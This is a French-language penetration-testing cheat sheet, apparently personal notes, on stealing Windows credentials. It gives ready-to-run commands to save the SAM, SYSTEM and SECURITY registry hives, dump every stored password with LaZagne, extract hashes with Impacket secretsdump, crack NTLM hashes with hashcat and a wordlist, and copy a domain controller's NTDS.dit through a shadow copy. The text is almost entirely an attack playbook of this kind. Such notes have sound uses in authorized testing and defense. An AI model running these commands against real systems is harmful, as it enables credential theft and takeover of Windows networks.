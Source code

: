 ### Ruche SYSTEM (HKLM\SECURITY)

Contient la clé de chiffrement et déchiffrement de la base SAM et des secrets LSA.


## Extraction des ruches en local (nt authority/system)

```Powershell
reg save HKLM\SAM sam.reg
reg save HKLM\SYSTEM system.reg
reg save HKLM\SECURITY security.reg
```

ou dump directement avec Lazagne

```
.\Lazagne.exe all
```

### Exfiltrer les ruches

[[DATA TRANSFER#UPLOADS Exfiltration]]



## Dump les hash des ruches avec Impacket secretsdump

```shell
sudo impacket-secretsdump -sam sam.reg -security security.reg -system system.reg LOCAL -outputfile host_hashes -user-status -history -pwd-last-set
```

## Bruteforce avec [[HASHCAT]]

```shell
hashcat -m 1000 host_hashes /usr/share/wordlists/rockyou.txt
```



## NTDS.dit

Base local qui stocke les identifiants sur un DC.

### Créer une shadow copy du volume C: 

```shell
vssadmin CREATE SHADOW /For=C:
```

### Copier NTDS.dit depuis la shadow copy

```shell
cmd.exe /c copy <shadow_copy_volume_name>\Windows\NTDS\NTDS.dit c:\NTDS.dit
```

### Extraction de la ruche SYSTEM
